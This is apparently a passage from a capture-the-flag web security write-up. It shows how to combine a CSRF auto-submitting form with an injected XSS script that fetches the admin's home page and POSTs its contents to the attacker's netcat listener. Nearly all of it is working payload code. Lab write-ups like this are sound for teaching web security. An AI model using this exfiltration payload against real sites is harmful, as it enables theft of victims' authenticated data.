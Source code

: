 This level requires us to fetch the home website of the user `admin` through a CSRF attack and send the text back to our `netcat` server. This means we'll need to make 2 requests, 1st request is to get the home page, 2nd request is to send the home page to the `netcat` server. Fortunately, The `fetch` API has the `then` method, which allows us to essentially pipe the output of a `fetch` to another `fetch`.

Let's construct our XSS script first:

```javascript
fetch("http://challenge.localhost:80")
	.then(response => {
		return response.text()
	})
	.then(content => {
		fetch("http://127.0.0.1:11122", {
			method:"POST",
			headers:{"Content-Type":"text/plain"},
			body:content
		})
	})
```

We make a GET request to the home page at `http://challenge.localhost:80` first, then after we get a response, we make a new request to `http://127.0.0.1:11122` with the output of the previous GET request (with the appropriate text header since we converted our response to text and we only need text since we're gonna view it in a terminal).

Now let's embed this into our XSS payload.

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Attack</title>
</head>
<body>
    <form method="GET" action="http://challenge.localhost/ephemeral">
<input type="hidden" name="msg" value='<script>fetch("http://challenge.localhost:80").then(response => {return response.text()}).then(content => {fetch("http://127.0.0.1:11122", {method:"POST", headers:{"Content-Type":"text/plain"}, body:content})})</script>'>
    </form>

    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```